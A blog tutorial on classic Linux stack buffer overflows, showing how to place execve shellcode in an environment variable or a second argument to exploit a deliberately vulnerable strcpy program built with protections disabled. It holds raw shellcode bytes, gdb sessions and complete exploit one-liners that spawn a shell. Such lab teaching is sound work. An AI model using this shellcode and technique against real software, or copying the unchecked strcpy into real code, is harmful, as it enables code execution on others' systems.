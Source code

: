 ```yaml
---
layout: post
title: "Buffer overflow - other places to put shellcode"
date: 2020-01-03
tags: [security, linux, programming, vulnerabilities]
---
```


Continuing with old school exploitation, we'll look at a few variations of shellcode injection.

## Shellcode in an environment variable

Consider the program below:

```c
/*
 * bo_vuln2.c
 * gcc bo_vuln2.c -zexecstack -fno-stack-protector -g -o bo_vuln2
 */

#include <string.h>

void cp(char *s)
{
    char input[8];
    strcpy(input, s);
}

int main(int argc, char *argv[])
{
    if (argc > 1)
        cp(argv[1]);
    return 0;
}
```

> Note that we are still disabling security measures during compilation, and that ASLR needs to be turned off if you want to follow along.

Can this tiny buffer be exploited?

You might think that we can do something like the following:

```
| 8  a's | 8 b's | ret | 50 NOP's | shellcode |
```

Fill buffer, overwrite saved frame pointer, overwrite ret to point to NOP-sled and then follow with our NOP-sled and shellcode. This is not possible because:

- We can't have null bytes in the command line argument since the argv's strings are null-terminated.
- `strcpy` will stop writing after encountering a null byte.

Our shellcode is NULL-free, but ret is not. ret is "0x00007fff..." and the only reason we succeeded modifying it correctly in the earlier example was that ret was the last part of our input string and the stack already contained the necessary null bytes as part of the previous ret address that we overwrote.

> Some programs can be exploited without worrying about null bytes, as we will see later.

But there's a simple solution that will allow us to exploit this tiny buffer to execute a shell: putting the shellcode in an enviroment variable.

Launch gdb with shellcode in an environment variable:

```bash
env - MYSH=`python -c 'print "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'` gdb bo_vuln2
(gdb) unset env LINES
(gdb) unset env COLUMNS
```

Find the address of the shellcode:

```bash
(gdb) start
...
(gdb) x/s *(char **)environ
0x7fffffffef7a: "PWD=/my/current/working/directory"
(gdb) <PRESS RETURN>
0x7fffffffef9f: "MYSH=H1\322H\273\377/bin/shH\301\353\bSH\211\347H1\300PWH\211\346\260;\017\005"
```

> Tip: you can use the gdb `start` command to run the program with a temporary breakpoint at the beginning of main.

The environment variable contains "MYSH=", so we need to add 5 bytes to the address to skip past that part: 0x7fffffffefa4.

Now we can exploit the program in gdb using:

```
(gdb) d
(gdb) r `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\xa4"[::-1]'`
...
process 18513 is executing new program: /usr/bin/bash
sh-4.4$
```

> Tip: Python helps us little-endian (reverse) the address bytes by using `[::-1]`.

And in the terminal:

```
$ env - PWD=$PWD MYSH=`python -c 'print "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'` SHLVL=0 $PWD/bo_vuln2 `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\xa4"[::-1]'`
sh-4.4$
```

Note that `$PWD` is set first, `$SHLVL` is set last, and that `$PWD` is used in front of the program to execute it with full path. Also note that our input length does not affect the location of the environment variable, so we don't need to take this into consideration.

> Tip: A huge NOP-sled in front of the shellcode can make *guessing* the correct address easier.

## Shellcode in command line argument *n*

Another option for exploiting the above program is putting the shellcode in the second command line argument and using the first command line argument to fill the buffer and overwrite ret.

Run the program in gdb using exploit code with dummy ret, break before cp returns to prevent a crash:

```bash
$ env - gdb bo_vuln2
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) disas cp
...
   0x0000000000401140 <+26>:    callq  0x401030 <strcpy@plt>
   0x0000000000401145 <+31>:    nop
...
(gdb) b *cp+31
(gdb) r `python -c 'print 16 * "a" + "bbbbbbbb" + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
```

Note the space (" ") separating the arguments. To find the address of the second argument, we can look at the bytes before `environ`:

```
(gdb) x/64xb *(char **)environ-64
0x7fffffffef61: 0x75    0x6c    0x6e    0x32    0x00    0x61    0x61    0x61
0x7fffffffef69: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fffffffef71: 0x61    0x61    0x61    0x61    0x61    0x62    0x62    0x62
0x7fffffffef79: 0x62    0x62    0x62    0x62    0x62    0x00    0x48    0x31
0x7fffffffef81: 0xd2    0x48    0xbb    0xff    0x2f    0x62    0x69    0x6e
0x7fffffffef89: 0x2f    0x73    0x68    0x48    0xc1    0xeb    0x08    0x53
0x7fffffffef91: 0x48    0x89    0xe7    0x48    0x31    0xc0    0x50    0x57
0x7fffffffef99: 0x48    0x89    0xe6    0xb0    0x3b    0x0f    0x05    0x00
```

> `environ` is on the stack before `argv`.

The shellcode starts after the b's and NULL, at 0x7fffffffef7f.

> Since the progam is compiled with debugging information (`-g`), `p argv` shows the *address of the address* to the command line arguments. You can view strings stored at the address with `x/`*N*`s *argv` or by using `p argv[`*N*`]`.

Exploiting in gdb using the correct address:

```bash
$ env - gdb bo_vuln2
(gdb) r `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\x7f"[::-1] + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
process 17211 is executing new program: /usr/bin/bash
sh-4.4$
```

And in the terminal:

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln2 `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\x7f"[::-1] + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
sh-4.4$
```


